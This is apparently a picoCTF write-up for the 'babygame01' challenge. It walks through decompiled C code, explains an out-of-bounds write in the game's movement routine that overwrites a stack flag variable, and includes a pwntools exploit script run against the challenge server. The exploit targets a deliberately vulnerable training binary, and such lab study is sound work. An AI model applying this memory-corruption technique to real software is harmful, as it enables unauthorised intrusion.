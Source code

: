 ### babygame01

Download the game and open it in a decompiler.

Starting from `main()`:

```c
undefined4 main(void)

{
  int iVar1;
  undefined4 uVar2;
  int in_GS_OFFSET;
  int local_aac;
  int local_aa8;
  char target;
  undefined local_aa0 [2700];
  int local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  init_player(&local_aac);
  init_map(local_aa0,&local_aac);
  print_map(local_aa0,&local_aac);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      move_player(&local_aac,(int)(char)iVar1,local_aa0);
      print_map(local_aa0,&local_aac);
    } while (local_aac != 0x1d);
  } while (local_aa8 != 0x59);
  puts("You win!");
  if (target != '\0') {
    puts("flage");
    win();
    fflush(stdout);
  }
  uVar2 = 0;
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar2 = __stack_chk_fail_local();
  }
  return uVar2;
}
```

We see that it calls `win()` if a condition is met.

```c
void win(void)

{
  FILE *__stream;
  int in_GS_OFFSET;
  char local_4c [60];
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("flag.txt not found in current directory");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_4c,0x3c,__stream);
  printf(local_4c);
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
```

This functions prints the flag so this is our goal. We need to make the `target` value `!= '\0'`. We can see that the `target` value is located before the buffer that we have write access.

```c
char target;
undefined local_aa0 [2700];
```

If we manage to write `out-of-bounds`, we can overwrite its value with something and print the flag.

We can alter its value in these 2 functions:

```c
  iVar1 = getchar();
  move_player(&local_aac,(int)(char)iVar1,local_aa0);
  print_map(local_aa0,&local_aac);
```

Let's analyze them.

`move_player()`:

```c
void move_player(int *param_1,char param_2,int param_3)

{
  int iVar1;
  
  if (param_2 == 'l') {
    iVar1 = getchar();
    player_tile = (undefined)iVar1;
  }
  if (param_2 == 'p') {
    solve_round(param_3,param_1);
  }
  *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = 0x2e;
  if (param_2 == 'w') {
    *param_1 = *param_1 + -1;
  }
  else if (param_2 == 's') {
    *param_1 = *param_1 + 1;
  }
  else if (param_2 == 'a') {
    param_1[1] = param_1[1] + -1;
  }
  else if (param_2 == 'd') {
    param_1[1] = param_1[1] + 1;
  }
  *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = player_tile;
  return;
}
```

We can see that:

* `w` -> moves up
* `a` -> moves left
* `s` -> moves down
* `d` -> moves right
* `p` -> solves the round
* `l` -> write to `player_tile`

The game's interface is really helpful.

```bash
Player position: 4 4
End tile position: 29 89
Player has flag: 0
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
....@.....................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
..........................................................................................
.........................................................................................X
```

There is this `Player has flag` string that indicates we have overwritten the `target` value, thus we can get the flag.

Our exploitation process is to:

* Dynamically read the player's position (it's not needed cause it's static but I like doing things dynamically)
* Move the player to the start of the array.
* Move it left till the target is overwritten and `Player has flag` value changes.

```python
from pwn import *
context.log_level = 'critical'

r = remote('saturn.picoctf.net', 61701)

r.recvuntil(b'Player position: ')
pos = r.recvline().strip().split(b' ')

# Go up
[r.sendline(b'w') for i in range(int(pos[0]))]

# Go left
[r.sendline(b'a') for i in range(int(pos[0]))]

r.recvuntil(b'Player position: 0 0')

while (1):
  r.recvuntil(b'Player has flag: ')
  player_has_flag = r.recvline().strip()
  r.recvuntil(b'X')
  if player_has_flag != b'0':
    r.sendline(b'p')
    r.recvuntil(b'flage\r\n')
    print(f'\nFlag --> {r.recvuntil(b"}").decode()}\n')
    exit()
  r.sendline(b'a')
  # Map is bugged
  r.recv(0x5ac)
```

```bash
➜  babygame01 git:(main) ✗ python solver.py

Flag --> picoCTF{XXX}
```